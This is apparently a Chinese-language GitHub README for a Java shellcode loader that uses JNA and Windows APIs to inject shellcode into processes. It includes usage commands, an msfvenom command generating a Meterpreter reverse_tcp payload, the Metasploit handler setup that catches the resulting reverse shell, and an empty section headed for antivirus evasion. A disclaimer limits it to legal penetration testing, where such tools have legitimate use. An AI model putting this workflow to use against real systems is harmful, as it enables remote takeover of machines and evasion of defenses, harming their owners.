

## Java ShellCode Loader

基于Java实现的ShellCode加载器，兼容32位及64位平台。

核心原理是利用Jna来调用Windows API，实现shellcode的注入。

运行环境：Jre >= 1.5

注：本项目已经内置在[yzddmr6/As-Exploits](https://github.com/yzddmr6/As-Exploits)的ShellCodeLoader模块中。

## 编译

maven package

## 使用

默认会随机注入32位进程，请使用32位的shellcode

```
java -jar ShellcodeLoader.jar shellcode_hex
```

注入x64位shellcode

```
java -jar ShellcodeLoader.jar --x64 shellcode_hex
```

## 举例

### kali

生成hex格式的ShellCode

```
┌──(root💀kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.10 LPORT=4444 -f hex
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of hex file: 708 bytes
fce88f0000006089e531d2648b5....
```

然后开启监听

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.88.10
set LPORT 4444
exploit -j
```

### 客户端

```
java -jar ShellcodeLoader.jar fce88f0000006089e531d2648b5....
```

即可收到反弹的Meterpreter

## 免杀



## 注意事项

本项目仅供合法的渗透测试以及爱好者参考学习，请勿用于非法用途，否则自行承担相关责任。